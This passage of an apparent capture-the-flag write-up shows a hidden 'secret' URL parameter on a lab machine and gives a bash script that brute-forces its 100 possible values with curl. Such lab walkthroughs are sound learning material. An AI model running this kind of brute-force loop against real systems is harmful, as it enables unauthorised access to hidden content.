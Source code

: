 **He left some unwanted text inside.**
**We know now, that the secret is between 0 and 99, but in the same time, looking into the page we see that there was already a secret entered.**
**Maybe it's a parameter of the page we could enter;**
**let's go on:**
**don't forget to modify the URL and include the hidden found directory.**

``http://10.10.94.80/x/?secret=2``

![9](images/secreted_1.jpg)

**Our secret seems to be entered and read inside the page, so let's go ahead and create a mini brute-force script to check 100 possible variants.**

+ **I'm gonna use `curl` to get my requests and page data and i will write a shell script**

```bash
#!/bin/bash

for i in {0..99}
do
        # modify the ip address below and the hidden directory that you found
        curl --silent http://10.10.94.80/x/?secret=$i | grep right >> /dev/null

        if [ $? -eq 0 ]
        then
                echo "$i is our SECRET page"
                # modify the ip address below and the hidden directory that you found
                curl --silent http://10.10.94.80/x/?secret=$i
                break;
        else
                echo "Secret $i is wrong"
        fi
done

```
